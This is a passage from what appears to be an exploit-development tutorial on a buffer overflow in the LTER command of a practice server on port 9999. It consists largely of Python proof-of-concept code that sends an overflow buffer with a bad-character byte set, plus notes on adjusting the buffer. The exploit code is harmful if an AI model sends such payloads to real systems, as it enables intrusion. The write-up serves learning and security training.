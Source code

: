 ```term
buffer = "LTER /.:/" + "A" * 3515 + "BBBB" + "CCCC" + badchars + "\xff" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

##### Checking the stack, we see an interesting response.

![](/assets/img/LTER/4.png)

##### This behaviour could determine that the amount of bytes given to execute once the flow is obtained is very limited to our needs. This may be an issue later on, but for now, we'll simply switch the bad characters from the end of the buffer to the middle and see if that processes all of them!

###### PoC code:

```term
import socket, sys, struct

badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")

buffer = "LTER /.:/" + "A" * 2500 + badchars + "A" * (3515 - 2500 - len(badchars)) + "BBBB" + "CCCC" + "\xff" * 200
```